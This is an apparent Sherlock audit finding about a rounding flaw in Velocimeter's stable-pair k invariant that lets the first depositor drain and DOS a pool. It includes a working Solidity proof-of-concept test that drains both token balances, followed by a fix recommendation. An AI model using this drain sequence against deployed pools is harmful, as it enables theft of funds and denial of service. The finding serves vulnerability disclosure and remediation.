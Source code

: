 Fit Burgundy Narwhal

High

# First liquidity provider of stable pair can DOS it

## Summary
A rounding error in the calculation of the `k` invariant in Pair.sol carried over from Velodrome's implementation can lead to the `k` invariant of stable pools to equal 0, allowing an attacker to steal whatever's left in the pool.
## Vulnerability Detail
The invariant `k` is calculated as follows:

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L403-L413
```solidity
    function _k(uint x, uint y) internal view returns (uint) {
        if (stable) {
            uint _x = x * 1e18 / decimals0;
            uint _y = y * 1e18 / decimals1;
→           uint _a = (_x * _y) / 1e18;
            uint _b = ((_x * _x) / 1e18 + (_y * _y) / 1e18);
            return _a * _b / 1e18;  // x3y+y3x >= k
        } else {
            return x * y; // xy >= k
        }
    }
```

Where `x` and `y` are the reserves/balances of the two tokens of the pool. Given little enough liquidity provided to the pool, the calculation of `_a` can result in 0 allowing an attacker to deposit minimal liquidity, swap continuously between the two tokens in the pool stealing whatever's left, inflate their LP tokens balance until total supply starts overflowing.

<details>
    <summary>Proof of concept</summary>


Append the two functions to **Pair.t.sol** and comment out `require(IVoter(voter).governor() == tx.origin, "not governor");` on line 114 in PairFactory.sol (for the sake of simplicity, that part is not relevant to the issue at hand anyway).
    
```solidity
    function drainPair(Pair pair, uint initialFraxAmount, uint initialDaiAmount) internal {
        DAI.transfer(address(pair), 1);
        uint amount0;
        uint amount1;
        if (address(DAI) < address(FRAX)) {
            amount0 = 0;
            amount1 = initialFraxAmount - 1;
        } else {
            amount1 = 0;
            amount0 = initialFraxAmount - 1;
        }

        pair.swap(amount0, amount1, address(this), new bytes(0));
        FRAX.transfer(address(pair), 1);

        if (address(DAI) < address(FRAX)) {
            amount0 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount1 = 0;
        } else {
            amount1 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount0 = 0;
        }

        pair.swap(amount0, amount1, address(this), new bytes(0));
    }

    function testDestroyPair() public {
        deployCoins();
        deal(address(DAI), address(this), 100 ether);
        deal(address(FRAX), address(this), 100 ether);
        deployPairFactoryAndRouter();

        Pair pair = Pair(factory.createPair(address(DAI), address(FRAX), true));

        for(uint i = 0; i < 10; i++) {
            DAI.transfer(address(pair), 10_000_000);
            FRAX.transfer(address(pair), 10_000_000);

            // as long as 10_000_000^2 < 1e18
            uint liquidity = pair.mint(address(this));

            console2.log("pair:", address(pair), "liquidity:", liquidity);
            console2.log("total liq:", pair.balanceOf(address(this)));

            drainPair(pair, FRAX.balanceOf(address(pair)) , DAI.balanceOf(address(pair)));

            console2.log("DAI balance:", DAI.balanceOf(address(pair)));
            console2.log("FRAX balance:", FRAX.balanceOf(address(pair)));

            require(DAI.balanceOf(address(pair)) == 1, "should drain DAI balance");
            require(FRAX.balanceOf(address(pair)) == 2, "should drain FRAX balance");
        }

        DAI.transfer(address(pair), 1 ether);
        FRAX.transfer(address(pair), 1 ether);

        vm.expectRevert();
        pair.mint(address(this));
    }
```

</details>

## Impact
Stable pairs can be DOSed completely by their first depositor, rendering them useless.

## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L403-L413

## Tool used
Manual Review

## Recommendation
Implement the fix that Velodrome introduced for the issue: https://github.com/velodrome-finance/contracts/commit/59f9c135ccf7685af81f021918c879b21c2c5f04
1. Only allow depositing equal amounts of liquidity to a stable pair pool
2. Require `k` to be above minimum `k`.
